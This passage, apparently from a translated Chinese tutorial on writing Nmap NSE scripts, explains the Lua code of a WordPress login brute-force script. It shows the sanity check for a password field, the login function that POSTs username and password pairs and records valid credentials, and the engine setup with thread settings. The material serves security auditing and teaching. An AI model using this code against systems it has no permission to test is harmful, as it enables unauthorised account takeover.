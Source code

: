 +   `disconnect`函数也可以在这个脚本中留空：

```
        disconnect = function( self )
            return true
          end,
```

+   `check`函数用作在我们开始暴力破解密码攻击之前的健全性检查。请注意，这个函数最近被标记为不推荐使用，这些检查将需要在将来的版本中移动到主要部分：

```
          check = function( self )
            local response = http.get( self.host, self.port, self.uri )
            stdnse.print_debug(1, "HTTP GET %s%s", stdnse.get_hostname(self.host),self.uri)
            -- Check if password field is there
            if ( response.status == 200 and response.body:match('type=[\'"]password[\'"]')) then
              stdnse.print_debug(1, "Initial check passed. Launching brute force attack")
              return true
            else
              stdnse.print_debug(1, "Initial check failed. Password field wasn't found")
            end

            return false
```

+   最后是`login`函数：

```
         login = function( self, username, password )
            -- Note the no_cache directive
            stdnse.print_debug(2, "HTTP POST %s%s\n", self.host, self.uri)
            local response = http.post( self.host, self.port, self.uri, { no_cache = true }, nil, { [self.options.uservar] = username, [self.options.passvar] = password } )
                -- This redirect is taking us to /wp-admin
            if response.status == 302 then
              local c = creds.Credentials:new( SCRIPT_NAME, self.host, self.port )
              c:add(username, password, creds.State.VALID )
              return true, brute.Account:new( username, password, "OPEN")
            end

            return false, brute.Error:new( "Incorrect password" )
          end,
```

1.  我们留下了代码的主要部分来初始化、配置和启动暴力引擎：

```
        action = function( host, port )
          local status, result, engine
          local uservar = stdnse.get_script_args('http-wordpress-brute.uservar') or DEFAULT_WP_USERVAR
          local passvar = stdnse.get_script_args('http-wordpress-brute.passvar') or DEFAULT_WP_PASSVAR
          local thread_num = stdnse.get_script_args("http-wordpress-brute.threads") or DEFAULT_THREAD_NUM

          engine = brute.Engine:new( Driver, host, port, { uservar = uservar, passvar = passvar } )
          engine:setMaxThreads(thread_num)
          engine.options.script_name = SCRIPT_NAME
          status, result = engine:start()

          return result
        end
```
